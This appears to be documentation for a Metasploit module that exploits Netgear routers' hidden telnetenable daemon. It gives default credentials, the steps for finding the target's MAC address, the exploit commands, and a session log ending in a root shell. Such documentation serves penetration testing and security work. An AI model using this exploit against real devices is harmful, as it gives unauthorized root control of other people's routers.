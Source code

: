 ## Intro

Several models of Netgear devices have a hidden telnet daemon that can be
enabled for remote LAN users by sending a 'magic packet' to the device. 
Upon successful connect, a root shell should be presented to the user.

There are many devices which contain this daemon, for a full list see [OpenWrt](https://wiki.openwrt.org/toh/netgear/telnet.console)

This module has been successfully tested against:

 - AC1450 in whatever version I bought it with (TCP)
 - AC1450 latest V1.0.0.36_10.0.17 (UDP)
 - N300 WNR2000 v3 V1.1.2.10 (TCP)

## Setup

A MAC address is required for exploitation.  To determine the MAC address of the device:

1. Ping the device to force an ARP lookup: ```ping -c 1 [IP]```
2. Get the MAC: ```arp -an [IP]```

## Targets

**0 (Automatic)**

Detect if a device listens on TCP or UDP.

**1 (TCP)**

Older devices usually listen on TCP.

**2 (UDP)**

Newer devices usually listen on UDP.

## Options

**MAC**

Set this to the MAC address of the device. You can use `ping` and `arp`
to find it.

**USERNAME**

If this is an older device, it'll take the value of `super_username` in
`nvram`. `Gearguy` is usually correct.

If this is a newer device, it'll take the web UI username, which is
usually unchanged from `admin`.

**PASSWORD**

If this is an older device, it'll take the value of `super_passwd` in
`nvram`. `Geardog` is usually correct.

If this is a newer device, it'll take the web UI password, which is
usually unchanged from `password`.

**VERBOSE**

This will display the username and password used in the magic packet.

## Exploitation 

1. Make sure you have a vulnerable device
2. Start metasploit
3. ```use exploit/linux/telnet/netgear_telnetenable```
4. ```set rhost [IP]```
5. ```set mac [MAC Address]```
6. ```exploit```
7. Enjoy a root shell!

## Usage

```
msf5 > use exploit/linux/telnet/netgear_telnetenable
msf5 exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf5 exploit(linux/telnet/netgear_telnetenable) > ping -c 1 192.168.1.1
[*] exec: ping -c 1 192.168.1.1

PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=1.19 ms

--- 192.168.1.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.198/1.198/1.198/0.000 ms
msf5 exploit(linux/telnet/netgear_telnetenable) > arp -an 192.168.1.1
[*] exec: arp -an 192.168.1.1

? (192.168.1.1) at [redacted] [ether] on wlan0
msf5 exploit(linux/telnet/netgear_telnetenable) > set mac [redacted]
mac => [redacted]
msf5 exploit(linux/telnet/netgear_telnetenable) > set verbose true
verbose => true
msf5 exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[*] 192.168.1.1:23 - Using creds admin:password
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.

id
id
uid=0 gid=0(root)
# uname -a
uname -a
Linux (none) 2.6.36.4brcmarm+ #16 SMP PREEMPT Wed Mar 22 15:02:38 CST 2017 armv7l unknown
#
```

If you've already exploited TelnetEnable, the exploit will attempt to
connect to `telnetd` directly. This saves us from sending the magic
packet again.

```
msf5 exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetd on TCP
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
```
